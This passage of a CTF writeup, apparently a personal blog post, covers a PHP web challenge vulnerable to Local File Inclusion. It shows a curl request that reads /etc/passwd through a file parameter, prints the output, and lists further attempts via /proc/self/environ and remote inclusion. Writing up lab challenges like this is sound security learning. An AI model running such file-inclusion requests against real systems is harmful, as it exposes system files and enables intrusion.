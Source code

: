 Here is part 2 of my writeup for the web challenges I solved for this CTF. Click [here](/2021/10/09/DigitalOverdoseCTF-Part1.html) for part 1.


As usual, my intent on writing about these challenges is to showcase my understanding of the issues presented in each challenge, and to write recommendations on how to address them.

---

## Web

Summary: there were only 3 challenges in this category, and I was able to solve 2 of them.

### notrequired

Challenge description:

> Hello I am cheemsloverboi33! I made a php website. Can you do a quick security check on it?

URL redirected to: http://ctf.bennetthackingcommunity.cf:8333/index.php?file=index.html

Instinctively, I tried to pass known OS files to see if the application was vulnerable to [Local File Inclusion](https://blog.detectify.com/2012/10/14/the-basics-of-local-file-inclusions/), and it was: 

```bash
juancho💀hackbox:notrequired$ curl http://ctf.bennetthackingcommunity.cf:8333/index.php?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
juancho💀hackbox:notrequired$ 
```

I then spent some time figuring out the objective. I tried searching for the `flag` file, enumerated as much files as possible (Apache config files, php.ini, Apache logs, OS config files), checked if I could get a shell with `/proc/self/environ`, and if RFI was possible using `http://` wrapper. None of these seemed to work.

